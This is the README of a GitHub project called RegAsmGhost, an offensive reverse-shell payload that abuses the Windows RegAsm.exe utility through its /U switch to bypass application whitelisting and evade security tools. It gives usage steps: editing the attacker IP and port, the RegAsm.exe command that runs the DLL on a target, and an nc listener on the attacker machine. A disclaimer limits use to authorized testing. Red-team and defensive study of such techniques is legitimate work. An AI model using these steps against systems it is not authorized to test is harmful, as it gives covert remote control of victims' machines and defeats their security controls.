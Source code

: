 # RegAsmGhost
RegAsmGhost is a stealthy reverse-shell payload leveraging the legitimate Windows utility RegAsm.exe for bypassing application whitelisting and evading detection by security tools.

## Description
RegAsmGhost utilizes a technique known as "Living-off-the-Land Binaries" (LOLBins), specifically using RegAsm.exe to execute arbitrary code via .NET assemblies. By invoking a custom DLL through the COM unregistration function (/U switch), RegAsmGhost establishes a covert reverse shell connection back to an attacker-controlled system.

This method is particularly useful for penetration testing, red teaming exercises, or demonstrating potential weaknesses in application whitelisting solutions.

## Usage
First, Adjust the IP address and port number directly in RegAsmGhost.cs to suit your testing environment.
Then, place the compiled DLL on the target machine and execute it using the following command:

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\RegAsm.exe /U .\RegAsmGhost.dll
```

Ensure your listener is active on your attacker machine:
```bash
nc -lvnp 9876
```

## Disclaimer
RegAsmGhost is intended for authorized security testing and educational purposes only. Unauthorized use is strictly prohibited. The author is not responsible for any misuse or damage caused by this tool.
